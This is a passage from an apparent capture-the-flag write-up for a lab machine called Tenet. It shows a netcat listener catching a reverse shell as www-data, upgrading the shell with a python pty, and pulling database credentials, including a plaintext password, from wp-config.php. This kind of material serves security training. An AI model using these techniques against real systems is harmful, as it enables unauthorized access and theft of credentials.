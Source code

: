 
At `nc`, a shell comes back:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.223.
    Ncat: Connection from 10.10.10.223:53092.
    bash: cannot set terminal process group (1519): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@tenet:/var/www/html$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

I’ll upgrade the typical way with `python3 -c 'import pty;pty.spawn("bash")'`,
then Ctrl-z, `stty raw -echo; fg`, then `reset`:

    
    
    www-data@tenet:/var/www/html$ python3 -c 'import pty;pty.spawn("bash")' 
    www-data@tenet:/var/www/html$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    root@kali# stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@tenet:/var/www/html$
    

## Shell as neil

There’s one user on the box, neil:

    
    
    www-data@tenet:/home$ ls
    neil
    

On the blog, neil showed interest in the database. I’ll grab the creds from
the `wp-config.php` file:

    
    
    <?php                                                                                                         ...[snip]...
    // ** MySQL settings - You can get this info from your web host ** //      
    /** The name of the database for WordPress */
    define( 'DB_NAME', 'wordpress' );    
    
    /** MySQL database username */
    define( 'DB_USER', 'neil' );
    
    /** MySQL database password */
    define( 'DB_PASSWORD', 'Opera2112' );
                                                              
